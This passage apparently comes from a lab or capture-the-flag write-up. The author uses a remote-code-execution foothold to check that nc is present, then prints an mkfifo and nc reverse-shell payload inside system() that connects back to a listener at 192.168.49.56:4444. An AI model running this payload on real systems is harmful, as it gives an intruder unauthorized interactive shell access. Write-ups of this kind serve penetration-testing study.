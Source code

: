 ![](images/ss3.png)

<br>

## System Access

I modify rce.txt to run the `which nc` command to see if we can use nc for our reverse shell and it comes back saying it's in /usr/bin/nc.

I modify rce.txt again to use the nc mkfifo reverse shell:

```
<pre>system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.49.56 4444 >/tmp/f')</pre>
```

I start the simple HTTP server back up and start a listener to catch the reverse shell and then navigate back to vulnerable link:
